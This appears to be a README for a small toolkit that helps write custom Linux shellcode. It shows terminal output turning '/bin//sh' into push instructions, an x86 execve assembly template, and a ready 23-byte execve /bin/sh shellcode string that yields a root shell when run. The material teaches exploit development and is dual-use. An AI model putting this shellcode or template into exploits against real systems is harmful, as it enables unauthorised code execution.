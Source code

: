 # shellcoding
Just a collection of scripts to help out with basic custom shellcoding.

- Plans to integrate everything toghether in the future and pipe to cfuzz.

- Encoding coming eventually? 

##Stringhex
    root@kali:~/shellcoding# stringhex /bin//sh

    Hex for string '/bin//sh' is: \x68\x73\x2F\x2F\x6E\x69\x62\x2F

    //sh: push 0x68732f2f

    /bin: push 0x6e69622f

    [**] Copy and paste the below directly into the .asm.

        push 0x68732f2f

        push 0x6e69622f

##Newasm
    root@kali:~/shellcoding# newasm test

    root@kali:~/shellcoding# cat test.asm

    global _start

    _start:

        xor eax, eax

        push eax

        ;add your payload here

        push 0x68732f2f

        push 0x6e69622f
####The 2 pushes above we added from stringhex /bin//sh
        mov ebx, esp

        push eax

        ;add your additional argument here

        ;mov ecx, esp

        ;push eax

        ;push ecx

        push ebx

        mov ecx, esp

        mov al, 11

        int 0x80
####If we wanted to add arguments (for example for a /bin/cat shellcode) you'd simply add the argument right after it says ";add your additional argument here" and uncomment the 3 lines after it.


##Chex
    root@kali:~/shellcoding# chex test

    \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80

    Shellcode is 23 bytes long

    root@kali:~/shellcoding# ./test

    # id
    
    uid=0(root) gid=0(root) groups=0(root)

####This automatically compiles your asm file, generates some hex, and gives you the length.
